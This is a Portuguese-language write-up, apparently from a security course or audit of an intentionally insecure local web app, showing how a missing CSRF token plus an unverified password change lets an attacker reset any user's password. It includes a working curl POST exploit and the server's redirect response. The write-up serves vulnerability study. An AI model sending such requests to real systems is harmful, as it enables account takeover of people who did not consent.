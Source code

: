 ## CWE-352: Cross-Site Request Forgery (CSRF)
- https://cwe.mitre.org/data/definitions/352.html

**Ver descrição, score e solução no [report.md](../report.md#cwe-352-cross-site-request-forgery-csrf).**

---
# Exploração da vulnerabilidade

Na aplicação insegura, nem as páginas enviam um CSRF token, nem o servidor confirma a sua existência.

Aproveitando a vulnerabilidade [Unverified Password Change](CWE-620.md) e sabendo o email de um utilizador, é possível alterar-lhe a password, sem saber a atual, com um POST para a página das *Account Settings*. Para isso, não é necessário estar autenticado nem sequer estar no website, uma vez que o CSRF token não é verificado pelo servidor.

Usando o comando ```curl```, para enviar pedidos HTTP na linha de comandos do sistema operativo, é possível explorar esta vulnerabilidade.

## Ataque: alterar a password de um utilizador
### Conhecimento prévio
O atacante sabe o email de um utilizador.

### Passo 1
O atacante envia um pedido HTTP para a página *Account Settings*, com o seguinte comando:
```bash
curl -X POST http://localhost:[PORT]/settings -H "Content-Type: application/x-www-form-urlencoded" -d "email=target@example.com&new_password=xyz"

# Ataque CSRF bem-sucedido: alterar a password do utilizador com email "target@example.com" para "xyz"
```

### Resultado
O servidor responde da seguinte forma:
```html
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/login">/login</a>. If not, click the link.

<!-- A resposta é um redirect para a página de login, o que significa que a password foi alterada -->
```